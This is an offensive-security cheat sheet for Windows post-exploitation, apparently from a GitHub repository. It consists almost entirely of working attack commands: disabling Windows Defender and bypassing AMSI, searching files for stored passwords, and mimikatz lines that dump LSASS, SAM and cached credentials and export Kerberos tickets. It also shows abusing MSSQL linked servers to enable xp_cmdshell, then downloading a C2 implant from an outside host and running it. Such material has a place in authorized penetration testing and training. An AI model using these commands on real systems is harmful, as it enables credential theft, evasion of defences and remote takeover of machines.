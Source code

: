 ## Disable Antivirus  
### With Admin privileges  
Add a folder to the list of paths for which Windows Defender scheduled and real-time scanning is disabled:  
`PS C:\> Add-MpPreference –ExclusionPath “C:\Temp\User"`
  
Disable real-time protection:  
`PS C:\> Set-MpPreference –DisableRealtimeMonitoring $True`  

Some AMSI (Antimalware scan interface) bypass techniques:  
- `PS C:\> powershell.exe –version 2` (Downgrade to PowerShell 2.0 (.NET Framework 3.5 is required)  
- Crash the AMSI process by running payloads available « amsi.fail » (https://amsi.fail).  
  
## Search passwords  
### Enumerate local secrets by searching for keywords in files  
```
findstr /s /i /m "password" "C:\path\to\search\directory\*.*"
```
/s (findstr) or -Recurse (Get-ChildItem) option ensures that the search is performed in all subdirectories.  
/i (findstr) option or -CaseSensitive (Select-String) option performs a case-insensitive search.  
/m (findstr) option is used to print only the filenames with the matching content.  
`Get-ChildItem -Path C:\* -Include *.xml,*.ini,*.txt,*.config,*.ps1,*.bat, *.properties,*.cfg,*.vbs,*.wsf,*.cmd -ErrorAction SilentlyContinue -Recurse | Select-String "adm","<domain>","pass","pwd","mdp","cred","config","username","SecureString" -List | Select-Object -ExpandProperty Path`  
  
    
### With Admin privileges - Extract passwords  
`mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"`  
  
**Explanation :**  
`privilege::debug` & `token::elevate` Elevate Privileges to extract the credentials  
`sekurlsa::logonpasswords` Extracts creds from lsass (memory)  
`lsadump::lsa /inject` Extracts from lsass (service)  
`lsadump::sam` Extracts creds from SAM  

## Extract Kerberos tickets from memory  
### With Admin privileges 
   
`mimikatz.exe "privilege::debug" "token::elevate" "kerberos::list /export" "exit"`    


## MSSQL Privesc   
### Check if the local MSSQL DB is linked to another instance:  
`Get-SqlServerLinkCrawl -Verbose`    
    
**Manual trusted link queery** (From https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql)   
  
`Get-SQLQuery -Instance "DBWEB,1433" -Query "select * from openquery(""m4sqlz.m4c.loc"", 'select * from information_schema.tables')"`  
  
**Enable xp_cmdshell and check it**  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'SELECT * FROM OPENQUERY("m4sqlz.m4c.loc", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'`  
  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`  
  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`    
  
  
If you see the results of @@selectname, it worked  
Then :    
`osql -E -S "DBWEB" -Q "EXECUTE('xp_cmdshell whoami') AT [m4sqlz.m4c.loc];"`   
Example dilvering a C2 implant:      
`osql -E -S "DBWEB" -Q "EXECUTE('xp_cmdshell ''powershell.exe iwr -Uri http://10.10.16.20:8080/bc2.exe -OutFile c:\Temp\JFE\bc2.exe''') AT [m4sqlz.m4c.loc];"`    
`osql -E -S "DBWEB" -Q "EXECUTE('xp_cmdshell ''powershell.exe -c Start-Process -NoNewWindow -FilePath C:\Temp\JFE\bc2.exe''') AT [m4sqlz.m4c.loc];"`      
  
    
  
